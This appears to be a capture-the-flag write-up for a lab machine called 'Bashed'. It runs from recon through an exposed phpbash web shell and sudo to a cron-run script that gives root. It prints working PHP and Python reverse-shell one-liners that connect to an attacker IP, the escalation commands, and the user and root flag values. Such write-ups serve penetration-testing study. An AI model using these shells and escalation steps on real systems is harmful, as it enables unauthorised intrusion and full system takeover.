 ![image](https://user-images.githubusercontent.com/105310322/187503139-1330b005-f9be-4a05-9bf9-5296ecc3d166.png)

### Tools: Nmap, 

Running Nmap we get port 80 running Apache 2.4.18. Curl did not give anything extra and an Nmap scripot scan did not find anything. We did get some luck with Dirb and we can check that part out.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.64.44
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:02 BST
Nmap scan report for 10.129.64.44
Host is up (0.0048s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=1%CU=34558%PV=Y%DS=2%DC=T%G=Y%TM=62FA6E1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   5.54 ms 10.10.14.1
2   4.90 ms 10.129.64.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```
```console
└──╼ [★]$ curl -I http://10.129.64.44
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 16:04:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
ETag: "1e3f-55f8bbac32f80"
Accept-Ranges: bytes
Content-Length: 7743
Vary: Accept-Encoding
Content-Type: text/html
```

```console
└──╼ [★]$ dirb http://10.129.64.44

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug 15 17:06:04 2022
URL_BASE: http://10.129.64.44/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.64.44/ ----
==> DIRECTORY: http://10.129.64.44/css/                                        
==> DIRECTORY: http://10.129.64.44/dev/                                        
==> DIRECTORY: http://10.129.64.44/fonts/                                      
==> DIRECTORY: http://10.129.64.44/images/                                     
+ http://10.129.64.44/index.html (CODE:200|SIZE:7743)                          
==> DIRECTORY: http://10.129.64.44/js/                                         
==> DIRECTORY: http://10.129.64.44/php/                                        
+ http://10.129.64.44/server-status (CODE:403|SIZE:300)                        
==> DIRECTORY: http://10.129.64.44/uploads/                                    
                                                                               
---- Entering directory: http://10.129.64.44/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/uploads/ ----
+ http://10.129.64.44/uploads/index.html (CODE:200|SIZE:14)                    
                                                                               
-----------------
END_TIME: Mon Aug 15 17:06:36 2022
DOWNLOADED: 9224 - FOUND: 3
```
The /dev directory looks the most interesting and digging slightly further takes us to http://10.129.64.44/dev/phpbash.php

Easy day. We can already navigate to and grab the user flag. Since we have a php bash lets create a reverse shell with it.

```console
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
```
```console
www-data@bashed
:/home/arrexel# cat user.txt

343cfcbe7fd570aa1a5218f0db7e0946
```
We set up the listener and run the script and we are in.

```console
bashed:/# php -r '$sock=fsockopen("10.10.14.93",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:33962.
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We still can't do anything different but running sudo -l shows that scriptmanager can be used. Note: running the reverse shell to use script manager is required since the limited php shell from the webpage would not allow the sudo command with scriptmanager.

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ ls
```
Awesome now we are scriptmanager but we cannot access the root directory yet. There is an interesting directory labeled /scripts. This directory has a python script and a text file. My first assumption was that I could create a script to read the root.txt flag but my scripting is limited. I noticed that the .txt and .py were updating at the same time which suggests a cronjob being ran by root. With this we have our last step.

```console
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
```console
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Aug 15 09:37 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 Aug 15 09:55 sol.py
-rw-r--r--  1 scriptmanager scriptmanager  110 Aug 15 10:19 test.py
-rw-r--r--  1 root          root            12 Aug 15 10:19 test.txt
```
We are going to set up 1 last reverse shell in order to gain root. We are going to make our own reverse shell script taken from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

We are going to use the python reverse shell since its being executed in a python script and set up our listener to catch it. After a minute or so the cronjob executes the script from the directory and we get our reverse shell and the flag!!

```console
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py
<);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py  
```

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:46748.
# ls
ls
sol.py	test.txt
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
353dbd73edc7c3073b68d735599731c9
```
WHOOOOOO!!!!
